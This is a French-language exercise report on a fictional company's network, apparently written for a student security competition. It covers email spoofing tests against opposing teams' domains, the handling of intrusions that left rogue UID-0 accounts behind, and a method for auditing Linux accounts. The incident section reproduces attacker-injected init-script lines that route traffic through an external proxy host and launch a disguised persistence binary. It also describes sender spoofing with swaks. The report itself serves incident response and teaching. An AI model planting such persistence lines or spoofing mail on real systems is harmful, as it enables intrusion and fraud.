# Tests offensifs, incidents et audit

Ce volet regroupe l'activite offensive de l'equipe et la reponse aux incidents survenus sur le SI de l'entreprise fictive (domaine `cercueil.fun`). Il couvre trois axes complementaires : les tests d'intrusion menes depuis une machine d'attaque contre les infrastructures des equipes adverses, la reponse aux compromissions constatees sur nos propres machines, et la methodologie d'audit des comptes Linux appliquee de facon recurrente. La soutenance etant passee, ce dossier presente les constats et les remediations tels qu'ils ont ete conduits, y compris pendant l'attaque en direct de l'evaluateur.

## Perimetre et machines

| Element | Adresse | Zone | Role dans le volet |
| --- | --- | --- | --- |
| `grattak` (Kali) | non documentee | PG_INVITED (port group invite) | Poste d'attaque de l'equipe |
| Poste d'administration | `172.31.250.2` | reseau d'administration | Source des sessions d'audit sur le bastion |
| `ansible` | `10.0.70.6` | reseau d'administration | Durcissement des machines (playbooks), source legitime |
| `repo-backup` (Debian) | non documentee | zone interne | Cible de l'incident du 24/06 (comptes UID 0) |
| `erp-odoo` | non documentee | zone ERP | Cible de l'incident du 01/07 (persistance) |
| `dns_maitre2` | non documentee | zone DNS | Cible de l'incident du 16/06 (deni d'acces) |
| Infrastructure attaquant | `30.10.2.2:3128` | externe | Relais mandataire (proxy) utilise pour l'exfiltration, bloque |

Domaines dans le perimetre offensif : `cercueil.fun` (domaine de l'entreprise, adresse de reception de controle) et les domaines des equipes adverses (`mii8.fr`, `homardpique.fr`, `jurassic-lab.fr`, `miagent.fr`, `royalimmo.net`, `mylittleprojet.fr`, entre autres).

## Machine d'attaque et reconnaissance

La machine offensive est une Kali (`grattak`) deployee dans la maquette sur le port group invite (`PG_INVITED`). Les tests se sont concentres sur la messagerie des domaines adverses. La reconnaissance repose sur l'interrogation DNS des enregistrements MX et des politiques d'authentification d'expediteur.


*`dig TXT homardpique.fr` revele une politique SPF permissive (`v=spf1 mx ~all`) ; `dig MX` designe `smtp.homardpique.fr` comme serveur entrant.*

## Usurpation de messagerie

L'analyse des politiques SPF, DKIM et DMARC des domaines adverses a servi a prioriser les cibles d'usurpation. Le tableau ci-dessous synthetise les failles retenues.

| Domaine | Etat | Faille majeure |
| --- | --- | --- |
| `homardpique.fr` | SPF seul | Pas de scelle DKIM ni de politique de rejet DMARC |
| `jurassic-lab.fr` | DMARC `p=none` | Mode observation : les messages usurpes passent sans blocage |
| `mylittleprojet.fr` | SPF errone | Faille syntaxique, le SPF est ignore par le destinataire |
| `royalimmo.net` | SPF `~all` | SoftFail trop permissif, souvent accepte |
| `miagent.fr` | Aucun mecanisme | Usurpation totale possible |

Les envois ont ete realises avec `swaks`, en usurpant l'expediteur `jean.dupont@homardpique.fr` et en placant en copie cachee une adresse de controle `titouan@cercueil.fun`.


*Le serveur `smtp.homardpique.fr` (Postfix) accepte `MAIL FROM` mais refuse le relais vers un domaine tiers (`454 4.7.1 Relay access denied`).*


*`dig MX jurassic-lab.fr` designe `mail.jurassic-lab.fr` ; l'envoi adresse directement a `srv-mail-mta.jurassic-lab.fr` (Postfix) est lui aussi refuse par `454 4.7.1 Relay access denied`.*


*Sur `mail.miagent.fr`, depourvu de SPF, DKIM et DMARC, le message usurpe est accepte et mis en file (`250 2.0.0 Ok: queued`). L'absence totale de mecanisme d'authentification rend l'usurpation exploitable.*


*Le meme envoi vers `mailprof@miagent.fr` est egalement mis en file (`250 2.0.0 Ok: queued`) : l'acceptation ne depend pas du compte destinataire.*

## Reponse a incident

### 16/06 : deni d'acces sur dns_maitre2

Lors de la bascule prevue vers le nouveau DNS maitre, la machine `dns_maitre2` n'affiche plus l'ecran de connexion habituel mais reste bloquee au chargement, clavier reconfigure en QWERTY et partiellement inoperant. Depuis la machine `ansible`, la connexion SSH echoue et les paquets ICMP restent sans reponse alors que la route de pare-feu existe. Par precaution, aucun identifiant n'a ete saisi sur l'ecran suspect afin de ne pas exposer nos mots de passe a une eventuelle capture. Les captures d'origine de cet incident ne sont plus disponibles.

### 24/06 : comptes malveillants sur Repo_backup

Deux comptes illegitimes disposant d'un UID 0 et d'un shell ont ete decouverts sur `repo-backup` : `vpxuser` et `systemd-journal-gateway`, dont les noms miment des services legitimes.


*`grep "/bin/bash" /etc/passwd` montre `vpxuser:x:0:0:VMware vCenter Agent:/usr/sbin:/bin/bash`, un compte a UID 0 se faisant passer pour un agent vCenter.*


*Le filtre `awk -F: '$3 == 0'` sur `/etc/passwd` revele trois comptes equivalents root : `root`, `systemd-journal-gateway` et `vpxuser`.*


*`journalctl --list-boots` situe un demarrage le 16/06 a 19:16, environ cinquante secondes avant la creation du compte `systemd-journal-gateway`, ce qui rattache la creation du compte a un redemarrage provoque.*

L'examen du journal precise la chronologie propre a chaque compte.


*`journalctl | grep vpxuser` remonte un `useradd` le 25/05 en `UID=0, GID=0, shell=/bin/bash`, suivi d'ouvertures de session repetees : la creation est anterieure au durcissement.*


*`last` sur `vpxuser` revele plusieurs sessions locales sur `tty1` et `tty2`, dont une ouverte plus de sept jours, ce qui traduit une utilisation prolongee du compte.*


*Pour `systemd-journal-gateway`, le journal ne retient qu'une session ouverte puis fermee le 16/06 a partir de 19:17, coherente avec le redemarrage releve plus haut.*

La suppression directe par `deluser` echoue tant que le compte apparait lie au processus 1. Apres verification par `ps -u` et `lsof -u` que les processus concernes appartiennent en realite a root, les comptes ont ete supprimes en forcant, puis le groupe residuel a ete retire.


*`deluser` s'interrompt sur un code d'erreur : le compte est signale comme utilise par le processus 1, ce qui bloque la suppression standard.*


*`ps` etablit que le processus 1 est `/sbin/init` et que les processus rattaches relevent de `root`, non des comptes illegitimes.*


*`lsof` sur le processus 1 (`systemd`) aboutit au meme constat : les descripteurs ouverts appartiennent a `root`.*


*`userdel -f` retire alors le compte ; le groupe primaire homonyme subsiste et doit etre traite a part.*


*`groupdel` supprime le groupe `systemd-journal-gateway` laisse par le retrait du compte.*


*Apres remediation, seul `root` conserve un UID 0. Le durcissement a ete applique dans la foulee en s'appuyant sur le guide BP-028 de l'ANSSI.*

Des comptes `vpxuser` similaires avaient deja ete retrouves sur les pare-feux pfSense et OPNsense, ce qui indique une compromission anterieure au durcissement.

### 01/07 : persistance et charge sur l'ERP

Un attaquant a ete surpris connecte en root sur `erp-odoo`. En reprenant la main sur la console au moment ou il tapait, l'equipe estime l'avoir interrompu avant qu'il ne termine ses actions. L'analyse de l'historique du compte `systemd-journal-gateway` revele la manipulation menee.


*`awk -F: '($3 == 0)'` sur `erp-odoo` retrouve `systemd-journal-gateway` en UID 0 avec `/bin/bash`, le meme schema que sur `repo-backup`.*


*`/var/log/auth.log` enchaine des echecs de mot de passe, une ouverture de session `systemd-journal-gateway(uid=0)` puis un `ROOT LOGIN ON tty1` : l'activite passe par la console locale (`tty1`) et non par SSH.*


*L'historique montre l'edition de `/etc/init.d/ssh`, des `ping 30.10.2.2`, des `netstat` repetes et des tentatives de recuperation reseau.*


*Trois lignes ont ete injectees dans `/etc/init.d/ssh` pour forcer un mandataire sortant et lancer une charge au demarrage :*

```sh
# Lignes ajoutees par l'attaquant dans /etc/init.d/ssh, absentes du fichier d'origine
export HTTP_PROXY="http://30.10.2.2:3128"
export HTTPS_PROXY="http://30.10.2.2:3128"
/opt/systemd-hwdb-update.service &
```


*Le fichier `/opt/systemd-hwdb-update.service`, au nom mimant un service reel, est un binaire ELF illisible depose en persistance.*

La remediation a consiste a retirer les trois lignes injectees, supprimer le binaire, bloquer l'infrastructure de l'attaquant au niveau du pare-feu local et supprimer le compte utilise.


*Regles `iptables` en DROP sur `30.10.2.2` en entree et en sortie, verifiees par `iptables -L`.*


*Apres la regle de blocage, `ping 30.10.2.2` renvoie 100 % de perte ; `netstat` dresse par ailleurs l'inventaire des services en ecoute sur l'ERP (Postfix, PostgreSQL, nginx, agents Veeam, SSH).*


*Comme sur `repo-backup`, `userdel -f` bute d'abord sur le processus 1, puis le compte est retire et disparait de `/etc/passwd`.*

L'inspection de `/var/log/auth.log` n'a revele aucune authentification SSH suspecte, et aucune trace d'execution du binaire n'a ete trouvee. Faute de temps, les investigations ont ete ecourtees ; une porte derobee residuelle ne peut etre exclue.


*`journalctl | grep` sur `/opt/systemd-hwdb-update.service` ne remonte aucune entree, ce qui conforte l'absence de trace d'execution du binaire.*

## Methodologie d'audit des comptes Linux

Une procedure d'audit a ete formalisee pour detecter les comptes indesirables sur les machines. Elle privilegie l'historique des connexions, plus fiable que le seul etat des comptes.


*`last -ai` liste toutes les sessions avec compte, provenance et duree ; `0.0.0.0` designe une session locale. Les acces d'administration proviennent de `172.31.250.2` et le compte `ansible` de `10.0.70.6`.*


*`last reboot` retrace les demarrages successifs et le noyau associe ; correle a la date de creation d'un compte, il aide a rattacher un evenement suspect a un redemarrage provoque.*


*`awk -F: '$3 >= 1000'` isole les comptes crees manuellement des comptes systeme. Sur le bastion, seuls `bastion` et `ansible` apparaissent en plus du compte poubelle `nobody`.*


*`passwd -S root` renvoie `root L`, soit un compte verrouille : etat attendu sur une machine saine.*


*A l'inverse, `root P 2026-06-03` indique un mot de passe positionne : signe de compromission, la date correspondant a l'activation. Un verrou peut toutefois etre reverrouille apres coup, d'ou la primaute de l'historique des connexions.*


*`getent group wheel` et `getent group sudo` verifient qu'aucun compte non prevu ne figure dans les groupes a privileges.*

## Interactions avec les autres briques

- Pare-feux : les routes entre `ansible` et les cibles transitent par pfSense et OPNsense ; le blocage d'urgence de l'attaquant sur l'ERP a ete pose via le pare-feu local (`iptables`). Des comptes `vpxuser` ont aussi ete retrouves sur les pare-feux.
